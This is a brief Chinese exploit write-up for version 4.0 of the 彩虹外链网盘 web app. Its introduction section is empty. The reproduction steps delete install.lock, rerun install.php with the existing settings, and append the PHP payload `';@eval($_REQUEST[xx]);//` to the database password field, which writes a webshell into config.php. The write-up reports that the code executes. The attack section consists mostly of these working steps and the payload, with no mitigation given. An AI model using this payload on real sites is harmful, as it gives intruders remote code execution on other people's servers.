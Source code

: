 彩虹外链网盘 v4.0 重装getshell
==============================

一、漏洞简介
------------

二、漏洞影响
------------

彩虹外链网盘 v4.0

三、复现过程
------------

在删除install.lock后,访问install.php
其他的原来的读取的配置,密码后面加上`';@eval($_REQUEST[xx]);//`

![13.png](resource/彩虹外链网盘v4.0重装getshell/media/rId24.png){width="5.833333333333333in"
height="4.9203926071741035in"}

此时的config.php如下,而且由于我们用的是原来的配置,网站不会崩

![14.png](resource/彩虹外链网盘v4.0重装getshell/media/rId25.png){width="5.833333333333333in"
height="4.231375765529309in"}

代码执行成功

![15.png](resource/彩虹外链网盘v4.0重装getshell/media/rId26.png){width="5.833333333333333in"
height="1.143261154855643in"}
